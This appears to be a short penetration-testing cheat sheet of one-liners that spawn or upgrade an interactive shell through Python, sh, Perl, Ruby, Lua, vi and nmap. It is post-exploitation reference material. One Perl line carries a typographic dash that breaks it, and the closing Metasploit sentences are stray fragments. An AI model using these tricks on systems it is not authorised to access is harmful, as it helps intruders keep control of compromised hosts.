 #### Python TTY Shell Trick <a href="#python-tty-shell-trick" id="python-tty-shell-trick"></a>

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

```
echo os.system('/bin/bash')
```

#### Spawn Interactive sh shell <a href="#spawn-interactive-sh-shell" id="spawn-interactive-sh-shell"></a>

```
/bin/sh -i
```

#### Spawn Perl TTY Shell <a href="#spawn-perl-tty-shell" id="spawn-perl-tty-shell"></a>

```
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```

#### Spawn Ruby TTY Shell <a href="#spawn-ruby-tty-shell" id="spawn-ruby-tty-shell"></a>

```
exec "/bin/sh"
```

#### Spawn Lua TTY Shell <a href="#spawn-lua-tty-shell" id="spawn-lua-tty-shell"></a>

```
os.execute('/bin/sh')
```

#### Spawn TTY Shell from Vi <a href="#spawn-tty-shell-from-vi" id="spawn-tty-shell-from-vi"></a>

Run shell commands from vi:

```
:!bash
```

#### Spawn TTY Shell NMAP <a href="#spawn-tty-shell-nmap" id="spawn-tty-shell-nmap"></a>

```
!sh
```

A basic metasploit cheat sheet that I have found handy for reference.

Basic Metasploit commands, useful for reference, for pivoting see - Meterpreter Pivoting techniques.
